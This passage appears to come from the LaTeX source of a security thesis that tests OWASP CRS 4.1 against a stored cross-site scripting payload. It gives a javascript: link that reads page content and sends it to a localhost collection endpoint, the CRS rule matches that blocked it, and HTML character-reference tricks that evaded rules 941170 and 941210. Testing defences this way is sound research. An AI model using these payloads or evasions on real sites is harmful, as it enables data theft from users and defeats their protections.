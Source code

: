 \begin{lstlisting}[style=ruleStyle, language=XML, caption=stored XSS blocked, label={lst:storedxssblocked}]
<payload><a href=javascript:var secret = document.getElementsByName('name')[0].innerHTML;var data = {body:secret,method:'POST'};fetch('http://localhost:3001/api/ping?secret='+secret,data)>ClickMeFor$</a></payload>

<message>"Possible Server Side Request Forgery (SSRF) Attack: Cloud provider metadata URL in Parameter"</message>
<file>"/rules/REQUEST-934-APPLICATION-ATTACK-GENERIC.conf"</file>
<fileDetails>[line "88"] [id "934110"]<fileDetails>
<MatchedData>"http://localhost"</MatchedData>

<message>"NoScript XSS InjectionChecker: Attribute Injection"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "225"] [id "941170"]<fileDetails>
<MatchedData>"javascript:[...]"</MatchedData>

<message>"Node-Validator Deny List Keywords"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "252"] [id "941180"]<fileDetails>
<MatchedData>".innerhtml"</MatchedData>

<message>"IE XSS Filters - Attack Detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "323"] [id "941210"]<fileDetails>
<MatchedData>"javascript:v"</MatchedData>
\end{lstlisting}

\acrshort{html} character reference substitution was used to substitute certain characters.
On escaping of the latin character \verb|a| in \verb|j&#97vascript|, the payload:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=j&^\#^97vascript:var secret = document.getElementsByName('name')[0].innerHTML;var data = {body:secret,method:'POST'};fetch('http://localhost:3001/api/ping?secret='+secret,data)>ClickMeFor$</a>
\end{lstlisting}

evaded the \acrshort{crs} 4.1 rules with ids \verb|941170| and \verb|941210|.
On escaping the \verb|.| in \\ \verb|getElementsByName('name')[0]&#46innerHTML|, the payload:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=j&^\#^97vascript:var secret = document.getElementsByName('name')[0]&^\#^46innerHTML;var data = {body:secret,method:'POST'};fetch('http://localhost:3001/api/ping?secret='+secret,data)>ClickMeFor$</a>
\end{lstlisting}

